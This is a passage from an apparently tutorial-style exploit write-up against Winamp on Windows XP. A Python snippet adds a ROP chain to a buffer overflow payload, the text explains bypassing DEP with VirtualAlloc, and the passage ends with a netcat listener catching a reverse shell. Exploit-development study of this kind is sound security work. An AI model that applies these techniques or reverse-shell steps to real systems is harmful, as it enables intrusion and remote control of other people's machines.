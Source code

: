 ```python
rop_chain = create_rop_chain()
buf += rop_chain
```

Now under immunity can see the NOP padding has correctly aligned up the ROP chain with the `ESP`:

![immunity debugger screenshot of the solution](/images/rop-aligned-sp.jpg "breakpoint hit of first ROP gadget with alignment padding to ESP")


Re-generating the new payload `whatsnew.txt` and triggering the buffer overflow, will now correctly execute the ROP chain call to `VirtualAlloc`, which in turn will enable executable pages on the stack, and allow the execution of the shellcode instructions with DEP enabled! The netcat listener catches the reverse shell as expected:

    $ sudo nc -l -p 443
    Microsoft Windows XP [Version 5.1.2600]
    (C) Copyright 1985-2001 Microsoft Corp.
    
    C:\Program Files\Winamp>


